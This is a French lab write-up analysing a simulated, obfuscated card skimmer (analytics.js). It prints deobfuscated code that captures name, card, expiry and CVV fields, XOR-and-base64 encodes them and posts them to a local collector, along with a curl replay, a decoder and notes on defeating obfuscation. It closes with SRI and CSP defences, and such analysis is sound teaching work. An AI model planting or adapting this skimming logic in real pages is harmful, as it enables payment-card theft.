





# TP09 — Fiche d'IOC : `tp09/tp/analytics.js`

## Aperçu



## Contexte

Échantillon analysé : `tp09/tp/analytics.js` (niveau 2, sans source map).
Tout est **simulé et inerte** : page factice, collecteur local (`collector.log`,
à côté de `serve.py`), aucune communication externe.

## Méthode

Désobfuscation automatique avec `webcrack` (`npm install -g webcrack` puis
`webcrack analytics.js -o sortie/`), relue et vérifiée manuellement, plus une preuve côté serveur (envoi réel vers le collecteur local, puis décodage de la ligne écrite dans `collector.log`). `webcrack` a travaillé en **statique**, sans exécuter le script : les pièges anti-debug n'ont donc jamais pu se déclencher.

Résultat dans `sortie/deobfuscated.js` (extrait) :

```js
var _0x2882b5 = "/api/tp09/collect";
var _0x50cf62 = ["name", "card", "exp", "cvv"];

function _0x3a0ece(data) {               // declencheur
  var digits = (data.card || "").replace(/\D/g, "");
  return digits.length >= 15;
}

var _0x4a5c6c = 66;                       // cle XOR (0x42)
function _0x1d29fa(s) {                   // encodage
  var out = "";
  for (var i = 0; i < s.length; i++) out += String.fromCharCode(s.charCodeAt(i) ^ _0x4a5c6c);
  return out;
}
function _0x1fd993(obj) { return btoa(_0x1d29fa(JSON.stringify(obj))); }

function _0x3e447c(data) {                // envoi
  if (_0x3a0ece(data)) {
    fetch(_0x2882b5, { method: "POST", body: _0x1fd993({t: Date.now(), page: location.pathname, data}), keepalive: true });
  }
}
// declenche sur "blur" de name/card/exp/cvv, et sur "submit" du formulaire #pay
```

## 1. Endpoint d'exfiltration

`/api/tp09/collect`, sur `127.0.0.1:8000` (collecteur du laboratoire).

**Preuve** : requête POST réelle, envoyée hors navigateur avec l'encodage
reconstitué, acceptée par le serveur :

```
curl -i -X POST http://127.0.0.1:8000/api/tp09/collect --data-binary "@payload.b64"
```

→ `200 ok`. La ligne correspondante apparaît dans `collector.log` (voir point 4).

Confirmé depuis le navigateur, sur la page réelle (`/tp09/tp/`), carte complète saisie (`4000 0000 0000 0002`) : une requête `collect` part vers
`/api/tp09/collect`, `200 OK`.



## 2. Champs ciblés et déclencheur

Champs lus : `name`, `card`, `exp`, `cvv` (tableau `_0x50cf62`), via
`document.getElementById(id).value`.

Déclencheur : un événement `blur` sur l'un de ces quatre champs, ou la
soumission du formulaire `#pay` — **mais** l'envoi n'a lieu que si
`_0x3a0ece` renvoie vrai, c'est-à-dire si le champ carte contient **au moins
15 chiffres** une fois les caractères non numériques retirés.

**Test qui le confirme**, en navigateur, Network filtré sur Fetch/XHR :

- carte raccourcie à `4000` (4 chiffres < 15), sortie du champ → journal vidé
  juste avant, **aucune requête** n'apparaît :



- carte complète `4000 0000 0000 0002` (16 chiffres ≥ 15), sortie du champ →
  **une requête part** (même capture que le point 1 ci-dessus).

## 3. Encodage de la charge, avec clé

Schéma : `base64( XOR( JSON.stringify(payload), 0x42 ) )`, où
`payload = {t: <epoch ms>, page: <chemin>, data: {name, card, exp, cvv}}`.

Clé : l'octet `0x42` (66), appliqué à chaque caractère du JSON avant le
passage en base64 (`btoa`).

Décodeur écrit pour ce TP : [`tp/decode.py`](tp/decode.py). Fonctions
`encode`/`decode`, symétriques (XOR est sa propre inverse) :

```python
XOR_KEY = 66
def decode(b64_text):
    xored = base64.b64decode(b64_text)
    text = bytes((b ^ XOR_KEY) & 0xFF for b in xored).decode("utf-8")
    return json.loads(text)
```

## 4. Charge décodée (dernière ligne de `collector.log`)

La requête envoyée depuis la page réelle (point 1 ci-dessus) a été
journalisée dans `collector.log`, puis relue avec `decode.py` :

```
python3 tp09/tp/decode.py --last-log collector.log
```



(Données entièrement factices, pré-remplies par la page de simulation.)

## 5. Techniques d'obfuscation rencontrées, et comment chacune a été défaite

| Technique                                                                                                | Ce qu'elle fait                                                                                                                                         | Comment elle a été défaite                                                                                                                          |
| -------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Tableau de chaînes chiffré** (string array + rotation + RC4)                                   | Toutes les chaînes littérales sont rangées dans un tableau, mélangées, puis déchiffrées à l'appel par une fonction « guichet » (RC4 + base64) | `webcrack` reconnaît ce schéma (`a0_0x5b26` / `a0_0x35d2`) et réinjecte chaque chaîne en clair dans le code                                  |
| **Aplatissement du flot de contrôle** (control-flow flattening, objets/`switch` de dispatch)    | Les expressions passent par une table d'alias et un `switch` numéroté, pour casser la lecture linéaire                                             | `webcrack` reconstruit l'ordre d'exécution réel à partir de l'AST                                                                                 |
| **Code mort** (dead code injection)                                                                | Des branches jamais exécutées, mélangées au vrai code, pour noyer l'analyse                                                                         | Supprimé par `webcrack` (passe `dead-code`)                                                                                                       |
| **Piège anti-debug / auto-défense** (`debugger` en boucle, détection de modification du code) | Fige l'exécution si les DevTools sont ouverts, ou re-sabote le code s'il est modifié                                                                  | Sans objet ici : l'analyse reste **statique** (lecture de l'AST), le code n'a jamais été exécuté, donc le piège ne s'est jamais déclenché |
| **Dictionnaire d'appels indirects** (`_0xbfa583{...}`)                                           | Les opérateurs et noms courants (`+`, `!==`, noms de méthodes) sont planqués dans un objet et appelés par des clés aléatoires                 | Inliné par `webcrack` (`inline-object-props`, `merge-object-assignments`)                                                                       |

Confirmation en direct : le piège se déclenche bien à l'ouverture de la page
avec DevTools actifs (pause sur `debugger`, script anonyme `VM…`), et se
contourne avec l'icône « Deactivate breakpoints » puis `F8` :



## Réponse à la question de restitution

Un script tiers compromis ne peut agir que s'il peut charger du code non
prévu et parler à un serveur non prévu. Trois leviers, complémentaires :

- **SRI** (`integrity="sha384-..."`) : le navigateur refuse le script si son
  contenu a changé — bloque une modification après coup, pas un script
  malveillant dès l'origine.
- **CSP `script-src`** : limite les origines dont du JavaScript peut être
  chargé — empêche l'injection d'un script tiers non listé.
- **CSP `connect-src`** : limite les destinations que `fetch`/XHR peuvent
  joindre — même si le script s'exécute, il ne peut pas exfiltrer vers une
  origine non autorisée (ici, `collector.local` n'étant pas dans la liste,
  la requête aurait été bloquée par le navigateur).
- **Inventaire des scripts tiers** : savoir ce qui tourne sur la page est la
  condition pour écrire les deux règles précédentes, et pour détecter un
  ajout non prévu.
